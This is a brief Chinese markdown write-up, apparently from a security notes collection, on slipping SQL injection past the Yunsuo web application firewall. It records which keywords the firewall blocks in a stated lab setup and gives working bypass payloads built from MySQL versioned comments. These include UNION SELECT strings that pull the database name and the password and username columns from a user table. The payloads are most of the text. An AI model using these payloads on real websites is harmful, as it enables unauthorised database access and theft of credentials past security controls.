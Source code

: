 ## bypass云锁注入测试

**实验环境**
刚去云锁官网下的

Apache/2.4.23

PHP/5.4

mysql 5

**Paylaod**

`order by `拦截

![](../img/bypass_yunshuo4.png)

`order/*!10000by*/5 `  

![](../img/bypass_yunshuo3.png)  

union  不拦截
select  不拦截
union select 拦截
union 各种字符 select 拦截
`union/*select*/ `不拦截

`union%20/*!10000all%20select*/%201,2,database/**/(),4,5`  

![](../img/bypass_yunshuo1.png)  

`union/*!10000all*//*!10000select+1,password,username*/,4,5%20from%20user`  

![](../img/bypass_yunshuo2.png)

来源:https://www.t00ls.net/articles-55793.html   

欢迎大家投稿注册土司.